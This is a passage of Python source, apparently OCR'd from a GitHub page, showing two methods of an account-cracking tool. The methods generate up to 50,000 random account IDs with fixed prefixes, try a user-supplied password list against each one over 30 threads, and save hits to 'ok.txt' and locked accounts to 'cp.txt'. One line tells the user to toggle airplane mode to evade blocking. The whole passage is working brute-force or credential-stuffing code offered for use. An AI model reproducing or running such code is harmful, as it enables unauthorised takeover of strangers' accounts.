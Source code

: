 
	def old4_6(self):
		x = 11111111
		xx = 99999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["016", "017", "018", "019", "013", "014", "015", "017", "019"])
		limit = int(input("\033[092m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR"%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		

	def old4_5(self):
		x = 111111
		xx = 999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))  
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))

